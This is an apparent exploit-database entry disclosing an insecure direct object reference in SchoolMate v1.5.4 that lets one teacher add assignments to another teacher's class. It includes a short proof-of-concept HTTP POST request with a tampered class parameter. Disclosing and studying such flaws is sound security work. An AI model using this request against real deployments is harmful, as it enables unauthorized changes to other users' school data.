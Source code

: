 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to add assignment in class that is assigned by other teacher (horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

title=assignment11&task=a111&total=50&assigneddate=1%2F1%2F2024&duedate=1%2F7%2F2023&addassignment=1&page2=2&logout=&selectclass=2(CHANGE HERE)&page=2
```